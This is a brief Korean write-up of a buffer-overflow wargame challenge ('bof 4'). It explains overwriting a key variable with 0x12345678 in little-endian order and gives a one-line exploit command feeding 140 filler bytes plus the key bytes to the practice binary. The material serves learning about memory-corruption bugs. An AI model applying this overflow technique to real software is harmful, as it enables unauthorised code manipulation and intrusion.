

# bof 4

bof2 문제와 별반 차이 없어 제이지만 잘 보면 key 값이 다르다.



기존의 키값은 0x61616161 이었으나 이번에는 0x12345678인 셈이다. 주의해야 할 것은 little-endian 방식이다. 따라서 0x78563412 식으로 입력해줘야 원하는 결과를 얻을 수 있을 것이다. 

터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ ./bof4 `python -c 'print "x"*140 + "\x78\x56\x34\x12"'`
```